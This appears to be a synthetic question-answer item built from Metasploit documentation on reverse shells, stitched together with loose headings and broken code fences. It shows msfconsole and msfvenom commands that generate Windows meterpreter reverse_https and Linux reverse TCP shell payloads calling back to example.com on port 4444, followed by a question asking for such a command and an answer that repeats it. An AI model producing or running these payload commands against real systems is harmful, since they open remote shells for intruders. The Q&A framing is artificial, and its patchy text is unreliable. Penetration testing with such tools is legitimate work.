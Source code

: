 Context:### Windows common reverse shell
### Linux common reverse shell
## When to use a reverse shell
## When a reverse shell isn't needed
## How to set up for a reverse shell during payload generation
## Demonstration
### Step 1: Generate the executable payload
On the attacker's box, run `msfpayload` or `msfvenom`:
```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=EmailCampaign20150101 -f exe -o payload.exe
# Generate a payload for use within C
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f c

# Generate an ELF file for execution on Linux environments
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f elf -o linux_shell

 Question: Generate an example of using msfvenom to create a Windows payload with the UUID technique. The payload must use reverse_https. Your response should be a single line of Bash code. 

 Your response: 
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=EmailCampaign20150101 -f exe -o payload.exe
```